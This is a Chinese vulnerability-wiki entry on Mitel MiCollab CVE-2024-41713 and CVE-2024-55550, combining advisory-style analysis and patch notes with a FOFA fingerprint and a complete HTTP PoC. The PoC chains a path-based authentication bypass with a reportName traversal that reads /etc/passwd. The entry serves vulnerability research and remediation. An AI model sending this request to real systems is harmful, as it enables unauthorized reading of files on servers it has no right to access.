

# Mitel MiCollab NuPoint/ReconcileWizard 41713鉴权绕过及报告路径读取链

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

## CVE-2024-55550 技术补充

核对日期：2026-10-03。本文为新增说明，不修改原文、请求或示例；未执行PoC或请求目标。

### 两个实体与版本应分开

现有41713文章的具体接口为 `/npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall`，以 `downloadReport` 和 `reportName` 穿越读取文件。它实际同时使用路径鉴权绕过和后认证报告读取，不能全部归给单一41713。

[watchTowr原始研究](https://labs.watchtowr.com/where-theres-smoke-theres-fire-mitel-micollab-cve-2024-35286-cve-2024-41713-and-an-0day/)给出9.8.1.201测试环境、请求和读取响应。认证绕过让外部请求进入Tomcat内层WAR；文件读取是另一个缺陷。原报告文字/代码已读，图片未视检。

[Mitel MISA-2024-0029](https://www.mitel.com/support/security-advisories/mitel-product-security-advisory-misa-2024-0029)修订4.0区分：41713在9.8.2.12修复；55550为管理员权限文件读取，9.8.2.12仅显著缓解，公告称将于后续更新处理。不能把前者的修复版本直接当成后者彻底修复。替代补丁公告现写6.0及以上，而旧文写9.7及以上，应以该版本公告说明并保留历史文本。

### 模板审阅

固定Nuclei55550模板也依次请求认证绕过路径与文件读接口，因此不是单独55550的匿名证明。模板误称产品cmg_suite，不应从该字段生成实体。读取文件、会话Cookie与HTTP日志是可能副作用；已读模板没有下载器、安装脚本或第三方回连。未执行它。建议在现有41713入口补链条说明，另保留55550的独立编号/关系，避免复制整篇新稿。


## 条目说明

- 对象与具体问题：Mitel MiCollab NuPoint/ReconcileWizard；41713鉴权绕过及报告路径读取链
- 版本、配置及部署条件：<9.8.2.12；9.7+替代补丁声明
- 认证与权限前提：npm-pwg/..;路径绕过
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 41713描述为认证绕过，POC再用downloadReport reportName穿越；后者是否另一独立缺陷/编号需核，不能全挂41713
- XML用xsd类型前缀未声明，需保留原解析前提；成功仅截图
- 补丁/KMS无具体链接，无法保证给定版本解决整条文件读链
- 请求未围栏、FOFA残缺

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

由于Mitel MiCollab软件的 NuPoint 统一消息 (NPM) 组件中存在身份验证绕过漏洞，并且输入验证不足，未经身份验证的远程攻击者可利用该漏洞执行路径遍历攻击，成功利用可能导致未授权访问、破坏或删除用户的数据和系统配置。

## 影响版本

version < MiCollab 9.8 SP2 (9.8.2.12)

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="MiCollab End User Portal"

POC/EXP：

```http
POST /npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Type: application/x-www-form-urlencoded

_transaction=<transaction xmlns:xsi="http://www.w3.org/2000/10/XMLSchema-instance" xsi:type="xsd:Object"><transactionNum xsi:type="xsd:long">2</transactionNum><operations xsi:type="xsd:List"><elem xsi:type="xsd:Object"><criteria xsi:type="xsd:Object"><reportName>../../../etc/passwd</reportName></criteria><operationConfig xsi:type="xsd:Object"><dataSource>summary_reports</dataSource><operationType>fetch</operationType></operationConfig><appID>builtinApplication</appID><operation>downloadReport</operation><oldValues xsi:type="xsd:Object"><reportName>x.txt</reportName></oldValues></elem></operations><jscallback>x</jscallback></transaction>&protocolVersion=1.0&__iframeTarget__=x
```





## 漏洞修复

建议使用受影响产品版本的客户更新到最新版本。

用户应升级到MiCollab 9.8 SP2 (9.8.2.12)或更高版本，以确保其系统免受此关键漏洞的影响。

对于那些无法立即升级的用户，Mitel 还为 9.7 及以上版本提供了一个补丁，在完成全面升级之前提供了一个替代解决方案，同时确保了安全性。该补丁的详细说明可在 Mitel 的知识管理系统 (KMS) 中找到。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
